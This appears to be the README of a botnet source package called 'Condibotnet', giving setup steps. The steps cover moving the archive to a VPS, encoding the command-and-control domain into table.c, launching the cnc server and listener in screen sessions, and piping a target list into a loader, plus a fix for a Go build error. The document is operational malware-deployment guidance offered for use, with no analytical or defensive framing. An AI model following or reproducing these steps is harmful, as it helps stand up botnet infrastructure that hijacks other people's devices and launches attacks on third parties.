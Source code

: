 # Condibotnet

Installation: 

1) the vps and transfer the archive via sftp to /root

2)  Change all IPs as written in tut.txt 

3)  Copy and paste all commands 

4) Take the domain and run it through ./enc string “domain” You will receive a xored version of  ”domain“, take it and throw it in table.c ("TABLE_CNC_DOMAIN") and change the number 

5) cd cnc/ 

   screen ./cnc 55555 1337 10 

   screen ./listen 

6) cat "file.txt" | ./loader 

7) have a problem connector.go:41:18: undefined: strings. download the old version github.com/go-sql-driver/mysql and unpack it into Project/Proj1/src/etc.